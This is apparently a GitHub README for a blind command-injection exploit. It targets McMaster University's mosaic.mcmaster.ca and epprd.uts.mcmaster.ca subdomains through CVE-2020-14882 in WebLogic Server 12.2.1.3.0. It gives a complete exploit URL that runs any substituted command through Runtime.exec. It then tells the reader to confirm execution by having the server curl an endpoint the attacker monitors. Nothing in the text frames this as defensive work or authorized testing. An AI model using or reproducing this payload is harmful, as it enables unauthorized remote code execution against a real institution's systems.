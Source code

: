 # McMaster-University-0-day-Blind-Command-Injection
This targets McMaster University's website and takes advantage of CVE-2020-14882 in the outdated version of WebLogic Server (12.2.1.3.0), which is present in the university's subdomains, mosaic.mcmaster.ca and epprd.uts.mcmaster.ca.
# Usage
1. Replace "COMMAND" in [https://mosaic.mcmaster.ca/console/images/%252E%252E%252Fconsole.portal?_nfpb=false&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('COMMAND');");](https://mosaic.mcmaster.ca/console/images/%252E%252E%252Fconsole.portal?_nfpb=false&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('COMMAND');");)
2. Open the link. It should show a 404 error but the command still runs. You can confirm it by using curl in the command to GET an endpoint URL that you monitor (which you can set in, for example, ReqBin). Then, when you open the link, an event should come up indicating that the curl command was successfuly executed.
